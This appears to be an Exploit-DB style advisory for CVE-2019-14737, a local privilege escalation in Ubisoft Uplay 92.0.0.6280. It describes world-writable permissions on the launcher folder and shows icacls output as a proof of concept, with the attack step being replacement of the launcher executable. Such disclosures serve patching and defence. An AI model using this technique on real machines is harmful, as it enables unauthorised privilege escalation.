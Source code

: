 ```
Exploit Title: Uplay 92.0.0.6280 - Local Privilege Escalation
Date: 2019-08-07
Exploit Author: Kusol Watchara-Apanukorn, Pongtorn Angsuchotmetee, Manich Koomsusi
Vendor Homepage: https://uplay.ubisoft.com/
Version: 92.0.0.6280
Tested on: Windows 10 x64
CVE : CVE-2019-14737
```

### Vulnerability Description
"C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher" has in secure permission that allows all BUILTIN-USER has full permission. An attacker replace the 
vulnerability execute file with malicious file.

### PoC

```
C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher>icacls "C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher"
C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher BUILTIN\Users:(F)
                                                     BUILTIN\Users:(OI)(CI)(IO)(F)
                                                     NT SERVICE\TrustedInstaller:(I)(F)
                                                     NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                                     BUILTIN\Users:(I)(RX)
                                                     BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                                     CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
```
ExpoitDB: https://www.exploit-db.com/exploits/47493
</br>
NVD: https://nvd.nist.gov/vuln/detail/CVE-2019-14737

